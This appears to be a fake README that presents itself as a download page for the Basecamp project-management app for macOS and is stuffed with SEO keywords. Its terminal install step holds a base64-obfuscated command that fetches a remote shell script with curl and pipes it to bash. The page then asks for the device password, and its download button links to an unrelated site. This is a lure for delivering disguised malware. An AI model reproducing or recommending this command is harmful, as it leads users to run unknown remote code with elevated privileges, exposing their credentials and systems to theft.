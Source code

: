 # Basecamp For Mac — Download For Mac OS 😊
![logo](https://cdn.worldvectorlogo.com/logos/basecamp-logo-2019.svg)

Basecamp For Mac is a powerful desktop application designed to streamline project management and team collaboration for macOS users. Trusted by millions, this app simplifies task organization, communication, and progress tracking, keeping your projects on track. Follow the instructions below to install Basecamp For Mac and boost your team’s productivity.[](https://basecamp.com/)

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/basecamp)

If the download button doesn’t work, follow the terminal installation instructions below.

## 📦 How to Install Basecamp For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- 📋 **Project Organization**: Manage multiple projects with dedicated workspaces for tasks, files, and discussions.
- 🤝 **Team Collaboration**: Communicate seamlessly with team chats, pings, and threaded discussions.
- 📊 **Progress Tracking**: Visualize project status with Hill Charts and Lineup tools for clear insights.
- 🔄 **Seamless Integrations**: Connect with tools like Slack, Google Drive, and Zapier for enhanced workflows.
- 🔔 **Real-Time Notifications**: Stay updated with the Hey! menu for task assignments and project updates.
- 🔒 **Secure Workspaces**: Protect project data with robust encryption and access controls.

## About Basecamp For Mac

Basecamp For Mac is a dedicated macOS application designed to simplify project management and team collaboration. Built by 37signals, Basecamp organizes tasks, discussions, and files in one centralized place, making it ideal for small businesses, freelancers, and teams. Its minimalist design and powerful features reduce complexity and boost productivity. Keywords like *Basecamp Mac app*, *project management Mac*, and *free Basecamp download* ensure high discoverability for users seeking efficient collaboration tools.[](https://basecamp.com/)

Optimized for macOS, Basecamp For Mac delivers a native experience with fast performance and desktop notifications, keeping you informed without browser clutter. The app supports task assignments, real-time chats, and visual progress tracking with tools like Hill Charts, ensuring projects stay on track. Its seamless integrations with tools like Slack and Google Drive enhance functionality. Search terms like *Basecamp for Mac free* and *Mac collaboration software* make it easy for users to find this powerful tool online.[](https://3.basecamp-help.com/article/57-basecamp-3-for-mac)

Basecamp For Mac is perfect for teams who want a calm, organized way to manage projects without the overwhelm of complex software. Features like the Lineup, Mission Control, and automated reports provide clear visibility into project progress, while email integration allows team members to participate without logging in. By leveraging keywords such as *Mac project management* and *Basecamp desktop app*, it attracts users seeking a streamlined solution for team coordination.[](https://basecamp.com/)

With regular updates to maintain compatibility with the latest macOS versions (including Intel and Apple Silicon), Basecamp For Mac offers a secure and reliable experience. Its robust security features protect sensitive project data, and its intuitive interface caters to both beginners and experienced users. Whether you’re searching for *free Basecamp Mac* or *team collaboration Mac*, this app delivers exceptional value for managing projects efficiently.[](https://3.basecamp-help.com/article/57-basecamp-3-for-mac)

## Advantages of Basecamp For Mac

- 🌟 **Minimalist Interface**: A macOS-optimized design for a calm and intuitive experience.
- ⚡ **Fast Performance**: Quick load times and smooth operation for efficient workflows.
- 📋 **Organized Workspaces**: Keep tasks, files, and discussions in one tidy place.
- 🤝 **Real-Time Collaboration**: Connect with your team through chats, pings, and discussions.
- 🆓 **Free Access**: Enjoy core features at no cost for your first project, ideal for small teams.[](https://basecamp.com/pricing)
- 🔄 **Robust Integrations**: Sync with Slack, Google Drive, Zapier, and more for seamless workflows.

## 🖼 Preview

![Project Dashboard](https://basecamp.com/videos/home/all-in-one-toolbox.webp)  
*Manage all your projects with a clean, centralized dashboard.*

![Task Management](https://basecamp.com/videos/home/what-still-needs-to-be-figured-out.webp)  
*Organize and assign tasks with intuitive to-do lists.*

![Team Collaboration](https://www.experte.com/images/basecamp-kanban.png?w=800)  
*Collaborate with your team in real-time with chat and discussions.*

![Progress Tracking](https://basecamp.com/videos/home/walkthrough-small.webp)  
*Track project progress with visual tools like Hill Charts.*

## 🔍 Tags

Basecamp, Basecamp download, Basecamp app, Basecamp mac, Basecamp desktop, Basecamp project management, Basecamp pricing, Basecamp 3, Basecamp 4, Basecamp cost, Basecamp 2, Basecamp website, Basecamp4, Basekamp, Base camp, Basecamp for Mac, Basecamp Mac app, project management Mac, free Basecamp download, Basecamp desktop app, Mac collaboration software, Mac project management, free Basecamp Mac, team collaboration Mac, project tracking Mac, productivity software Mac

